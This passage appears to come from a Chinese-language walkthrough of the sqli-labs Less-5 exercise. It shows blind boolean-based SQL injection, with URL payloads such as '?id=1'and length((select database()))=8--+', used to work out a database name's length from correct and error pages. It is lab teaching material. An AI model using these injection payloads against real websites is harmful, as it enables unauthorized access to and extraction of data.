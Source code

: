 该画面是错误画面，可知数据库名长度不是7



再注入以下语句

~~~ shell
?id=1'and length((select database()))=8--+
~~~

![Less-5_4](./img/Less-5_4.PNG)

该页面是正确画面，由此可知数据库名长度是8



最后注入以下语句

~~~ shell
?id=1'and length((select database()))=9--+
~~~
